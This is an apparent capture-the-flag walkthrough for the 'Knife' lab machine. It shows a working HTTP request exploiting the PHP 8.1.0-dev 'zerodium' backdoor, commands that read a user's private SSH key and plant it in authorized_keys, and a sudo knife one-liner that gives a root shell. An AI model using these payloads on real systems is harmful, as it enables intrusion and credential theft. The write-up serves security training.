 ### Knife - Explore and nmapping

Starting with nmap to see what's runnng on the server:
```bat
sudo nmap -p- --min-rate 10000 -oA knife -v 10.10.10.242
```


While the nmap is running we can take a look and see if any website is running on the default port.
![website](https://is-going-to-rick-roll.me/1637881484.png)
So the website is a static page with one page (landing page)
no forms or anything special/suspicious.

Now let's check the nmap results
![nmap result](https://is-going-to-rick-roll.me/1637881600.png)
<br>
as we can see we have two ports open:
* 22 - TCP SSH
* 80 - TCP HTTP

sicne we have two options I'll go and investigate the website.
Opening burp suite and sniffing the GET for the index page returns us nothing special
![burp results](https://is-going-to-rick-roll.me/1637881755.png)
At first glance, it might look like a normal website nothing exciting.
But (as a PHP fanboy) i saw something that is really rememberable.
the X-Powerd-By line shows us that it runs PHP 8.1.0 DEVELOPMENT VERSION (which includes a backdoor)

(You can read more about this vulnerability that was released and approved for a few hours in the main repo at: https://rioasmara.com/2021/10/23/supply-chain-attack-php-8-1-0-dev-backdoor/)

After reading a bit more about this vulnerability I can understand how to run RCE.




### Using the vulnerabilities we found


So, after we found RCE in the website we cna be sure that this is the main vulnerability that will get give us the credentials we need for the SSH connection and etc.

By replacing the "User-Agent" name with "User-Agentt" we baypass the backdoor check and now we'll be able to execute code, by giving the value zerodium followed by the command we want to run.
For testing we'll try to echo "kekw".
![RCE POC](https://is-going-to-rick-roll.me/1637882393.png)
as you can see in the screenshot from Burp Suite the RCE worked and we managed to execute code.




## First Flag, owning user.
Most of the time people save flags in txt files, so because it was 1:25 AM at the time i did the first thing that came up to my mine.

```xml
GET /index.php HTTP/1.1

Host: 10.10.10.242

User-Agentt: zerodiumsystem('find . -name *.txt');

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1
```

response: ![](https://is-going-to-rick-roll.me/1637882832.png)
<br>

and here we go, inside the first file it returned we have the user flag.
we can use the RCE in order to print it (:

![back-door in PHP](https://is-going-to-rick-roll.me/1637882978.png)

<br>

## Owning the system - SSH

After a doing a small resarch I could found a packege that will help us getting into the server using the RCE.

(You can see more about it in: https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

![RCE backdoor](https://is-going-to-rick-roll.me/1637920603.png)

using the backdoor_php_8.1.0-dev.py script we can accsess now to the server.

we are logged as james.

This user has no special permission.
By running <code>sudo -l</code> I can see we can run only one thing "(root) NOPASSWD: /usr/bin/knife"


##### Getting into SSH
On the sell that the backdoor opend us we can see that it uses SSH keys to log-in.
My first thought was to copy the private key to my machine and try to log in with that.


```bat
cat /home/james/.ssh/id_rsa```
```
![Private SSH key](https://is-going-to-rick-roll.me/1637927299.png)
(save this on your machine)<br>


Before trying to make the ssh connection with the key that we just found we have to make sure that the public key is inside the authorized_keys file.

```bat
cat /home/james/.ssh/authorized_keys
```

And it returned nothing, so we'll have to add the public kay by rinning 
```bat
cat home/james/.ssh/id_rsa.pub >> home/james/.ssh/authorized_keys
```

Now we can connect to the server via SSH
```bat
ssh -i id_rsa james@10.10.10.242
```
and we're inside!

![SSH connection with the KEY](https://is-going-to-rick-roll.me/1637928878.png)

<br><br>

##### Finding the system flag



Now, when we alrady gain accsess into the server via ssh we can look and see what files and what other things that we didn't saw we have.

About files i found nothing.
running <code>sudo -l</code> returned me
![sudo hint](https://is-going-to-rick-roll.me/1637929088.png)
In a first look you'll be confusd but after a short google search we can find this -> https://gtfobins.github.io/#knife

![gtfobins article](https://is-going-to-rick-roll.me/1637929195.png)

And this is how we are going to preform an privilege escalation attack, let's go back into the SSH and run 
```bat
sudo knife exec -E 'exec "/bin/sh"'


id
```

Now we are root.
![couldnt ask for mow hu](https://is-going-to-rick-roll.me/1637929307.png)

Let's go to the main user directory and see what we have.

![root.txt found](https://is-going-to-rick-roll.me/1637929371.png)


and we have found our last flag root.txt

![flag](https://is-going-to-rick-roll.me/1637929433.png)

